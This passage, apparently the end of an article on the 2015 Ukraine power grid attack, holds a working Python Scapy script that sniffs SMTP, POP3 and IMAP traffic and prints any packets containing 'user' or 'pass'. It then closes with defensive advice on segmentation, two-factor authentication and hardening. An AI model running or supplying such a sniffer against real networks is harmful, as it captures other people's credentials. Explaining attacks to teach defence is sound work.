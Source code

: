 ```python
# Define a function to be used as the callback for the sniffing function
def packet_callback(packet):
    # Check if the packet contains TCP payload
    if packet[TCP].payload:
        # Convert the payload to a string
        mail_packet = str(packet[TCP].payload)
        # Check if the string contains the words "user" or "pass"
        if "user" in mail_packet.lower() or "pass" in mail_packet.lower():
            # Print the destination IP address and payload contents
            print("[*] Server: {}".format(packet[IP].dst))
            print("[*] {}".format(packet[TCP].payload))

# Use Scapy's sniff function to capture network traffic
# Filter for packets with destination port 25 (SMTP), 110 (POP3), or 143 (IMAP)
# Call the packet_callback function for each captured packet
# Set store=0 to prevent storing captured packets in memory
sniff(filter="tcp port 25 or tcp port 110 or tcp port 143", prn=packet_callback, store=0)
```

# FINAL THOUGHTS
As the world becomes increasingly reliant on technology, the threat of cyberwarfare and cyberattacks on critical infrastructure systems continues to grow. The 2015 Ukraine power grid attack serves as a stark reminder of the potential consequences of such attacks and the need for organizations to take proactive measures to protect their critical infrastructure.

Living off the land techniques like pass-the-hash, and the use of sophisticated malware like BlackEnergy highlight the need for robust security measures to detect and prevent cyberattacks. Technical measures like network segmentation, two-factor authentication, IDPS systems, application whitelisting, and system hardening can all help to minimize the attack surface and reduce the risk of successful cyberattacks.

As cyber threats continue to evolve and become more sophisticated, it's important for organizations to stay up-to-date with the latest security trends and best practices. By staying vigilant and proactive, organizations can help prevent cyberattacks and protect their critical infrastructure from cyberwarfare.
